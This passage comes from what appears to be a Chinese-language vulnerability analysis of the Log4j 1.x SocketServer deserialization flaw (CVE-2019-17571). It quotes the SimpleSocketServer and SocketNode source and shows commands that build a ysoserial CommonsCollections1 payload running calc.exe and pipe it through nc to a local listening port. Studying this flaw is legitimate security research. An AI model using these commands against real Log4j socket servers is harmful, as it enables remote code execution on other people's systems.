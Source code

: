 ```plain
        cat.info("Connected to client at " + socket.getInetAddress());
        cat.info("Starting new socket node.");
        // 创建一个线程
        new Thread(new SocketNode(socket,
                    LogManager.getLoggerRepository()),"SimpleSocketServer-" + port).start();
      }
    } catch(Exception e) {
      e.printStackTrace();
    }
}
```

执行到 serverSocket.accept();会一致等待接收，此时使用 ysoserial 生成 CC1 链的 payload，再使用 nc 向目标 ip 和端口发送数据

```plain
java -jar ysoserial-all.jar CommonsCollections1 "calc.exe" > cve201917571
cat cve201917571| nc 127.0.0.1 4444
```

此时 accept 成功接收到一个客户端的连接  
[![](assets/1700701330-b264ff2e62d388987b7b468aac043734.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120133100-fd4054f4-8765-1.png)

主要看创建线程的代码，里面参数中 new 了一个 SocketNode 对象，进入

```plain
public SocketNode(Socket socket, LoggerRepository hierarchy) {
    this.socket = socket;
    this.hierarchy = hierarchy;
    try {
        // 创建一个 ObjectInputStream 对象 ois，数据从 socket 中获取数据流
      ois = new ObjectInputStream(
                         new BufferedInputStream(socket.getInputStream()));
    } catch(InterruptedIOException e) {
      Thread.currentThread().interrupt();
      logger.error("Could not open ObjectInputStream to "+socket, e);
    } catch(IOException e) {
      logger.error("Could not open ObjectInputStream to "+socket, e);
    } catch(RuntimeException e) {
      logger.error("Could not open ObjectInputStream to "+socket, e);
    }
}
```
